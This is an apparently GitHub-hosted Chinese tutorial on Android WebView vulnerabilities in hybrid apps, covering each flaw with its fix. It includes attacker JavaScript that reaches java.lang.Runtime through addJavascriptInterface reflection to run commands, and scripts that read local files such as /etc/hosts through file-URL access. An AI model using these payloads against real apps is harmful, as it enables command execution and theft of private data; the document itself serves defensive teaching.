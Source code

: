 ### 使用Hybrid开发，需要了解的webview那些漏洞
#### 类型
1. 任意代码执行漏洞
    - addJavascriptInterface（）
    - webview内置到处的searchBoxJavaBridge 对象
    - webview内置导出的accesssibility和accessibilityTraversalObject对象
2. 密码明文存储漏洞
3. 域控制不严格漏洞
#### 具体分析
1. 任意代码执行漏洞
    - addJavascriptInterface（）接口
        - 漏洞产生原因：
        ```
        webView.addJavascriptInterface(new JSObject(), "myObj");
        // 参数1：Android的本地对象
        // 参数2：JS的对象
        // 通过对象映射将Android中的本地对象和JS中的对象进行关联，从而实现JS调用Android的对象和方法
        所以，漏洞产生的原因是：当js拿到android这个对象后，从而实现js调用android对象中所有的方法，包括系统类，从而进行任意代码执行。如可以执行命令获取本地设备的sd卡中的文件等信息从而造成信息泄露。
        ```
        - 具体获取系统类的描述（结合java反射机制）
            - android中的对象有一公共的方法：getClass();
            - 该方法可以获取到当前类 类型Class
            - 该类有一关键的方法：Class.forName()
            - 该方法可以加载一个类（java.lang.Runtime）
            - 而且该类是可以执行本地命令的
        - js攻击核心代码
            ```
                function execute(cmdArgs)  
                {  
                    // 步骤1：遍历 window 对象
                    // 目的是为了找到包含 getClass （）的对象
                    // 因为Android映射的JS对象也在window中，所以肯定会遍历到
                    for (var obj in window) {  
                        if ("getClass" in window[obj]) {  

                    // 步骤2：利用反射调用forName（）得到Runtime类对象
                            alert(obj);          
                            return  window[obj].getClass().forName("java.lang.Runtime")  

                    // 步骤3：以后，就可以调用静态方法来执行一些命令，比如访问文件的命令
                getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  

                // 从执行命令后返回的输入流中得到字符串，有很严重暴露隐私的危险。
                // 如执行完访问文件的命令之后，就可以得到文件名的信息了。
                        }  
                    }  
                }   
            ```
        - 当一些 APP 通过扫描二维码打开一个外部网页时，攻击者就可以执行这段 js 代码进行漏洞攻击。在微信盛行、扫一扫行为普及的情况下，该漏洞的危险性非常大
        - 具体解决方案:
            - 方案一：在Android 4.2 版本中规定对被调用的函数以 @JavascriptInterface进行注解从而避免漏洞攻击
            - 方案二：在Android 4.2版本之前采用拦截prompt（）进行漏洞修复。
                - 具体步骤：继承WebView，重写addJavascriptInterface（）方法，然后在内部自己维护一个对象映射关系的Map；将需要添加的js接口放入该map中
                - 每次当WebView加载页面前，加载一段本地代码的js代码。原理是：
                    - 让js调用一JavaScript方法：该方法是通过调用prompt()把js中的信息（含有特点标识，方法名称，参数等）传递到android端；
                    - 在android的onJsPrompt()中，解析传递过来的信息，再通过反射机制调用java对象的方法，这样实现安全的js调用android代码。
                    - 关于android返回给js的值：可以通过prompt（）把java中方法的处理结果返回到js中
    - webview内置到处的searchBoxJavaBridge_对象
        - 原因：在Android 3.0以下，Android系统会默认通过searchBoxJavaBridge_的Js接口给 WebView 添加一个JS映射对象：**searchBoxJavaBridge_对象**。该接口可能被利用，实现远程任意代码。
        - 解决方案：删除searchBoxJavaBridge_的js接口
        ```
            // 通过调用该方法删除接口
            removeJavascriptInterface（）；
        ```
    - webview内置导出的accesssibility和accessibilityTraversalObject对象
        - 同searchBoxJavaBridge_对象
2. 密码明文存储漏洞
    - WebView默认开启密码保存功能 ：mWebView.setSavePassword(true)`
    - 开启后，在用户输入密码时，会弹出提示框：询问用户是否保存密码；如果选择”是”，密码会被明文保到 /data/data/com.package.name/databases/webview.db 中，这样就有被盗取密码的危险
    - 解决方案：关闭密码保存提醒，WebSettings.setSavePassword(false) 
3. 域控制不严格漏洞
    - 即 A 应用可以通过 B 应用导出的 Activity 让 B 应用加载一个恶意的 file 协议的 url，从而可以获取 B 应用的内部私有文件，从而带来数据泄露威胁。。具体：当其他应用启动此 Activity 时， intent 中的 data 直接被当作 url 来加载（假定传进来的 url 为 file:///data/local/tmp/attack.html ），其他 APP 通过使用显式 ComponentName 或者其他类似方式就可以很轻松的启动该 WebViewActivity 并加载恶意url。
    - 下面我们着重分析WebView中getSettings类的方法对 WebView 安全性的影响：
        - setAllowFileAccess（）
        ```
            // 设置是否允许 WebView 使用 File 协议
            webView.getSettings().setAllowFileAccess(true);     
            // 默认设置为true，即允许在 File 域下执行任意 JavaScript 代码；
            // 如果是false，则不会存在上述的威胁，但同时也限制了 WebView 的功能，使其不能加载本地的 html 文件
        ```
        使用 file 域加载的 js代码能够使用进行**同源策略跨域访问**，从而导致隐私信息泄露
        1. 同源策略跨域访问：对私有目录文件进行访问
        2. 针对IM类产品，泄漏的是聊天信息，以及联系人等
        3. 针对浏览器类软件，泄漏的是cookie信息
        4. 解决该问题方案：则需要对不使用file协议的业务启用，对使用file协议的禁用
        ```
            // 禁止 file 协议加载 JavaScript
            if (url.startsWith("file://") {
                setJavaScriptEnabled(false);
            } else {
                setJavaScriptEnabled(true);
            }
        ```
        - setAllowFileAccessFromFileURLs（）:设置是否允许通过 file url 加载的 Js代码读取其他的本地文件
            ```
                当AllowFileAccessFromFileURLs（）设置为 true 时，攻击者的JS代码为：
                <script>
                    function loadXMLDoc()
                    {
                        var arm = "file:///etc/hosts";
                        var xmlhttp;
                        if (window.XMLHttpRequest)
                        {
                            xmlhttp=new XMLHttpRequest();
                        }
                        xmlhttp.onreadystatechange=function()
                        {
                            //alert("status is"+xmlhttp.status);
                            if (xmlhttp.readyState==4)
                            {
                                console.log(xmlhttp.responseText);
                            }
                        }
                        xmlhttp.open("GET",arm);
                        xmlhttp.send(null);
                    }
                    loadXMLDoc();
                    </script>

                    // 通过该代码可成功读取 /etc/hosts 的内容数据
            ```
            - 解决方案：设置setAllowFileAccessFromFileURLs(false);当设置成为 false 时，上述JS的攻击代码执行会导致错误，表示浏览器禁止从 file url 中的 javascript 读取其它本地文件。
        - setAllowUniversalAccessFromFileURLs（）: 设置是否允许通过 file url 加载的 Javascript 可以访问其他的源(包括http、https等源)。// 在Android 4.1前默认允许（setAllowFileAccessFromFileURLs（）不起作用）// 在Android 4.1后默认禁止
            - ```
                当AllowFileAccessFromFileURLs（）被设置成true时，攻击者的JS代码是：
                // 通过该代码可成功读取 http://www.so.com 的内容
                    <script>
                    function loadXMLDoc()
                    {
                        var arm = "http://www.so.com";
                        var xmlhttp;
                        if (window.XMLHttpRequest)
                        {
                            xmlhttp=new XMLHttpRequest();
                        }
                        xmlhttp.onreadystatechange=function()
                        {
                            //alert("status is"+xmlhttp.status);
                            if (xmlhttp.readyState==4)
                            {
                                console.log(xmlhttp.responseText);
                            }
                        }
                        xmlhttp.open("GET",arm);
                        xmlhttp.send(null);
                    }
                    loadXMLDoc();
                    </script>
                解决方案：设置setAllowUniversalAccessFromFileURLs(false);
            ```
        - setJavaScriptEnabled（）:设置是否允许 WebView 使用 JavaScript（默认是不允许）.但很多应用（包括移动浏览器）为了让 WebView 执行 http 协议中的 JavaScript，都会主动设置为true，不区别对待是非常危险的。

    - 


#### 总结